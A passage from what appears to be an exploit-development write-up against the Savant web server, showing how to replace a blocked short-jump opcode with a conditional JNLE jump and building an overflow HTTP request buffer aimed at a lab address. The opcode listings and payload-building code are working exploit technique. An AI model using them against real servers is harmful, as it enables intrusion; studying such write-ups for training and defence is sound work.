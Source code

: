 Unconditional jump is not possible as opcode for unconditional jump ```\xeb```is badcharacter. So we need to use one of "good" characters suchs as following: 

![Fuzzing results](https://github.com/smarinovic/smarinovic.github.io/blob/master/assets/img/savant_10.png?raw=true)

Let's use JNLE instruction. For example, we can put value x02 in AL register and compare AL with 0x1. Result of such instruction will be "not less or equal" so we could use "jumo if not less of equal" (JNLP) instruction for jumping.

```
nasm > cmp al, 01
00000000  3C01              cmp al,0x1
nasm > mov al, 02
00000000  B002              mov al,0x2
nasm > 
```

Opcodes for such jump is following: ```\xb0\x02\x3c\x01\x7f\x14```.  

```
jump ="\xb0\x02\x3c\x01\x7f\x14"
buffer = jump + " /%" + "\x43" * (276 - len(jump)) + " HTTP/1.1\r\n"
buffer += "Host: 172.16.24.212\r\nUser-Agent FUZZ\r\nAccept: FUZZ\r\nConnection: close\r\n\r\n"
```

We can see that opcodes are unmodified on the stack:

![Fuzzing results](https://github.com/smarinovic/smarinovic.github.io/blob/master/assets/img/savant_11.png?raw=true)
